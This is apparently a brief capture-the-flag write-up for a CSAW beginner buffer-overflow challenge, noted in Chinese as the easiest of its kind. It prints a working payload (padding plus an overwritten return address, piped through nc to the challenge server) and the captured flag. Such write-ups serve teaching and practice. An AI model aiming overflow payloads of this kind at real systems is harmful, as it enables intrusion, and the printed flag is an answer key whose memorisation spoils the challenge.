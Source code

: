# get it?

最水的那種新手buffer overflow題

payload:

`(perl -e 'print "a"x40, "\xb6\x05\x40\x00\x00\x00\x00\x00"';cat) | nc pwn.chal.csaw.io 9001`

flat:

`flag{y0u_deF_get_itls}`
